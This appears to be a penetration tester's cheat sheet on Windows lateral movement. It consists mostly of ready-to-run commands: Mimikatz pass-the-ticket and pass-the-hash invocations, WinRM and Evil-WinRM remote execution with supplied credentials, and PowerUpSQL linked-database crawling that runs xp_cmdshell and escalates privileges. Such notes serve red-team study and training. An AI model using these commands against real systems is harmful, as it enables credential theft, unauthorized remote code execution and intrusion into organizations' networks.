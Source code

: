 
# Lateral Movement
PsExec, SmbExec, WMIExec, RDP, PTH in general.
WinRM is always good. Check groups carefully.
Since windows gave support to OpenSSH we should also consider SSH.
## &nbsp;&nbsp;&nbsp;&nbsp; Mimikatz Ticket PTH
<pre class="prettyprint linenums:"><code class="language-py">Enable-PSRemoting
mimikatz.exe '" kerberos:ptt C:\Users\Public\ticketname.kirbi"' "exit"
Enter-PSSession -ComputerName ECORP
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; WinRM

<pre class="prettyprint linenums:"><code class="language-powershell">$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass)
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }

# Evil-WinRM
https://github.com/Hackplayers/evil-winrm
ruby evil-winrm.rb -i 192.168.1.2 -u morph3 -p morph3 -r evil.corp
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; PTH with Mimikatz
<pre class="prettyprint linenums:"><code class="language-powershell">Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:command"'
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; Database Links
<pre class="prettyprint linenums:"><code class="language-py"># PowerUpSQL
https://github.com/NetSPI/PowerUpSQL

Get-SQLServerLink -Instance server -Verbose
powershell.exe -c "Import-Module C:\Users\Public\PowerUpSQL.ps1; Invoke-SQLEscalatePriv -Verbose -Instance ECORP\sql"

# To see servers 
select srvname from master..sysservers;

# Native
Get-SQLServerLinkCrawl -Instance server -Query "exec master..xp_cmdshell 'whoami'"

# Linked database tables
select * from openquery("ECORP\FOO", 'select TABLE_NAME from FOO.INFORMATION_SCHEMA.TABLES') 
